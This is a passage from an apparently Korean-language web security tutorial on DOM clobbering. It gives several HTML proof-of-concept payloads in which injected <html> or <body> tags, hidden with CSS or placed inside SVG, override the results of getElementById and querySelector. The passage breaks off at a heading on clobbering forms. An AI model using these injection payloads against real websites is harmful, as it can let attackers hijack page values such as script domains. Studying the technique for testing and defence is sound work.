 **`document.getElementById()`** 및 **`document.querySelector()`** 호출의 결과는 동일한 id 속성을 가진 `<html>` 또는 `<body>` 태그를 주입함으로써 변경될 수 있습니다. 다음은 이를 수행하는 방법입니다:
```html
<div style="display:none" id="cdnDomain" class="x">test</div>
<p>
<html id="cdnDomain" class="x">
clobbered
</html>
<script>
alert(document.getElementById("cdnDomain").innerText) // Clobbered
alert(document.querySelector(".x").innerText) // Clobbered
</script>
</p>
```
또한, 이러한 주입된 HTML/body 태그를 숨기기 위해 스타일을 사용함으로써 `innerText`의 다른 텍스트로 인한 간섭을 방지할 수 있어 공격의 효율성을 높일 수 있습니다:
```html
<div style="display:none" id="cdnDomain">test</div>
<p>existing text</p>
<html id="cdnDomain">
clobbered
</html>
<style>
p {
display: none;
}
</style>
<script>
alert(document.getElementById("cdnDomain").innerText) // Clobbered
</script>
```
SVG에 대한 조사 결과 `<body>` 태그도 효과적으로 활용될 수 있음을 알 수 있습니다:
```html
<div style="display:none" id="cdnDomain">example.com</div>
<svg>
<body id="cdnDomain">
clobbered
</body>
</svg>
<script>
alert(document.getElementById("cdnDomain").innerText) // Clobbered
</script>
```
HTML 태그가 Chrome 및 Firefox와 같은 브라우저의 SVG 내에서 작동하려면 `<foreignobject>` 태그가 필요합니다:
```html
<div style="display:none" id="cdnDomain">example.com</div>
<svg>
<foreignobject>
<html id="cdnDomain">
clobbered
</html>
</foreignobject>
</svg>
<script>
alert(document.getElementById("cdnDomain").innerText) // Clobbered
</script>
```
## Clobbering Forms
